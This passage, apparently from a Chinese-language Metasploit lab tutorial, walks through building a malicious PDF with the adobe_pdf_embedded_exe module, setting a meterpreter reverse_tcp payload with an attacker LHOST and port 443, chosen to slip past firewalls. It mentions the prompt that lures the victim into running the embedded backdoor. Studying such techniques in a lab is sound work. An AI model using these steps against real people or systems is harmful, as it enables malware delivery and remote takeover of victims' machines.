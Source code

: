 ### 4.5 查看结果

输出包含恶意代码的 PDF 文件在 `/root/.msf4/local/evil.pdf`，使用 `exit` 退出 msfconsole 后，可以查看该文件：

![此处输入图片的描述](../imgs/wm_38.png)

从上图中可以看到文件的大小增大了 `45K`，这部分增多的内容就是我们嵌入的后门程序。文件打开的效果会弹出一个提示信息引导用户去点击，点击后就会启动嵌入的程序。

### 4.6 设置自己的 payload

为了让被感染的 PDF 具有更大的价值，我们准备给这个 PDF 设置一个自定义的 payload。

重新进入到 msfconsole：

```
msfconsole
```

在 msfconsole 下依次按照上述步骤执行，选择攻击模块：

```
msf > use exploit/windows/fileformat/adobe_pdf_embedded_exe
```

此处我们使用的 payload 是 `windows/meterpreter/reverse_tcp`，如果想选择其他的 payload，可以使用 `show payloads` 命令查看并选择。

`windows/meterpreter/reverse_tcp` 是 meterpreter 后门程序，会从被攻击的主机建立到攻击者主机的 TCP 连接，攻击者能够直接进入被攻击的主机。

使用 `windows/meterpreter/reverse_tcp` 作为嵌入的 payload：

```
msf > set payload windows/meterpreter/reverse_tcp
```

对 payload 进行配置，至少需要指定 Kali 的 IP 地址和端口用来接收后门建立的连接，这里需要注意目标主机必须和我们 Kali 主机互相之间可以连接：

```
msf > set lhost 192.168.122.101
msf > set lport 443
```

使用 443 端口的好处是不容易被防火墙拦住。
